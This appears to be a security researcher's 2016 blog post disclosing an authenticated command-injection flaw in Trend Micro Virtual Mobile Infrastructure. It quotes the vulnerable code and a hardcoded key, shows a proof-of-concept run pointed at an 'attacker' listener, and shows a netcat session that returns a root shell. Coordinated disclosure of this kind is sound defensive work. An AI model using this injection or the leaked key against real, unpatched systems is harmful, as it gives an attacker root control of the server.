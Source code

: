 ```yaml
---
layout: post
title:  "Trend Micro Bug Hunting - Part III"
date:   2016-10-08 07:00:00
author: qkaiser
excerpt: |
    Trend Micro Virtual Mobile Infrastructure is affected by a remote command execution vulnerability. This vulnerability can be exploited by authenticated user on the web administration panel of VMI to gain remote command execution with root privileges.
comments: true
categories: pentesting trendmicro
---
```



Trend Micro Virtual Mobile Infrastructure is affected by a remote command execution vulnerability. This vulnerability can be exploited by authenticated user on the web administration panel of VMI to gain remote command execution with root privileges.

From Trend Micro documentation:

> Trend Micro Virtual Mobile Infrastructure is a service that hosts independent workspaces for every user. A user workspace is based on Android operating system, which is accessible via Virtual Mobile Infrastructure mobile client application installed on an Android, iOS or Windows mobile device. Using the mobile client application, users can access the same mobile environment that includes all their applications and data from any location, without being tied to a single mobile device. The mobile client application preserves the original Android user experience by providing all the Android features and their controls to the user.

I recommend anyone running Virtual Mobile Infrastructure to update to version 5.1, available at the following location:

*  [Virtual Mobile Infrastructure 5.1](http://downloadcenter.trendmicro.com/index.php?regs=NABU&clk=latest&clkval=4968&lang_loc=1)

Trend Micro Advisory is available on their latest security bulletin: [Security Bulletin: Trend Micro Virtual Mobile Infrastructure (VMI) Remote Code Execution Vulnerability](https://success.trendmicro.com/solution/1115411)

#### Affected Versions

* Trend Micro Virtual Mobile Infrastructure up to version 5.0

### Authenticated RCE - Technical Description

The administration interface provides a way for administrators to upload certificates by going to Administration > Certificate Management. The interface uploads a certificate file then sends a reference to the uploaded certificate and the password to unlock that certificate.

To understand how everything pans out, you first have to understand how VMI server works.

The request is handled by the following Django code in ```vmi/manager/configuration/views.py```. We can see that the password is decrypted using a hardcoded key (```#$vmi4trend```) using Blowfish with PKCS7 padding, then a call to ```sendAndRecvCmd``` is made with the certificate filename and password as parameters.

{% highlight python %}
class SaveIdentifyView(APIView):
  def post(self, request):
    try:
      pw = decode_with_hex_bf_pkcs7(VMI.JS_ENCRYPTION_MAGIC_CODE, request.DATA['password'])
      file_name = request.DATA['filename']
      (ret, all) = sendAndRecvCmd(CMD.CMD_IMPORT_IDENTIFY_CLIENT_PFX, filename = file_name, password = pw)
      data = { }
      data['fail'] = len(ret)
      data['total'] = all
      desc = audit_log[AuditLogType.CERTIFICATE_MANAGEMENT]
      admin = request.user
      setAuditLog(desc, AuditLogType.CERTIFICATE_MANAGEMENT, admin)
      return generalJsonResponse(status.HTTP_200_OK, ErrorCode.SUCCESS, ret, data)
    except Exception:
      e = None
      logger.error(str(e))
      return generalJsonResponse(status.HTTP_400_BAD_REQUEST, ErrorCode.FAILURE)
{% endhighlight %}

The ```sendAndRecvCmd``` function is defined in ```vmi/manager/engine/api.py```. This function sends data to the local Redis server. The data being sent is composed of a command identifier and parameters to be used with that command. On launch, the server register a bunch of redis worker that listens for data being sent to Redis. Each worker will decide to execute a command based on the command identifier.

{% highlight python %}
class BaseCmd(object):

  def sendAndReceive(cls, cmd):
    return BaseCmd.sendAndReceiveEx(cmd, get_redis())
  sendAndReceive = classmethod(sendAndReceive)

  def sendAndReceiveEx(cls, cmd, redis):
    cmd.ret_addr = 'vmi_ret_addr_%d' % id(cmd)
    key = CMD.get_queue(cmd.cmd)
    redis.rpush(key, jsonpickle.encode(cmd))
    popped = redis.blpop(cmd.ret_addr, settings.VMIM['execute_cmd_timeout'])
    if popped is not None:
      return jsonpickle.decode(popped[1])
    logger.warn('timeout for cmd: %s' % jsonpickle.encode(cmd))
  sendAndReceiveEx = classmethod(sendAndReceiveEx)

  def send(cls, cmd):
    BaseCmd.sendEx(cmd, get_redis())
  send = classmethod(send)

  def sendEx(cls, cmd, redis):
    cmd.ret_addr = None
    redis.rpush(CMD.get_queue(cmd.cmd), jsonpickle.encode(cmd))
    sendEx = classmethod(sendEx)
    cmd = 0
    ret_addr = None

def sendAndRecvCmd(cmd, **kargs):
    return BaseCmd.sendAndReceive(GeneralCmd(cmd, **None))
{% endhighlight %}

The worker that receives the command is ```/vmi/manager/engine/management/commands/apns_worker.py```.

As we can see in the excerpt below, the password parameter is not sanitized and directly fed to an openssl command line. This can be exploited by injecting system commands into the password field to gain remote command execution.

{% highlight python %}
def handle_certificate(self, pfx_file, password):
  if os.path.exists(pfx_file):
    cmd = "openssl pkcs12 -in '%s' -clcerts -out %s -passin pass:%s -passout pass:" % (pfx_file, self.cert_tmp, password)
    (status, result) = commands.getstatusoutput(cmd)
{% endhighlight %}


I wrote the initial proof-of-concept using Python. You can get the code from [here]({{site.url}}/assets/exploit_vmi.py).

```
python exploit.py --rhost vmi --rport 8443 --lhost attacker --lport 4444 --username admin --password admin
[+] Login to https://vmi:8443/
[+] Successfully logged in.
[+] Uploading vmi.pfx to the server ...
[+] File uploaded successfully (7283f4f2-ae5a-4683-957f-348418a10c67.pfx)
[+] Sending payload ...
```

And here goes your root shell :)

```
nc -lvp 4444
listening on [any] 4444 ...
bash: no job control in this shell
[root@localhost /]# whoami
root
[root@localhost /]# pwd
/
[root@localhost /]# 
```


### Conclusion

This is a nice example of a bug that only code review could have catched. First, the password has to be properly decrypted to even reach the `sendAndRcv` call which means it has to be properly encrypted in the first place. Nothing that tools like Burp or Zap could have picked up. Then this all redis worker path could have prevented proper identification of the bug.

Once again, Trend Micro vulnerability team was great in handling this coordinated disclosure.


### Disclosure Timeline

* **2016-05-11**: Advisory sent to Trend Micro 
* **2016-05-11**: Trend Micro acknowledge the issue
* **2016-05-20**: Trend Micro provides a planning for the fix
* **2016-10-08**: Trend Micro released a patch

### CVE Identifier

* [CVE-2016-6270](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2016-5270) - Authenticated remote code execution by exploiting the vulnerability in which ```openssl``` is used directly with untrusted input within ```apns_worker.py```

### Exploit

* [Python PoC]({{site.url}}/assets/exploit_vmi.py)
* Metasploit module - Will push it by this evening :)
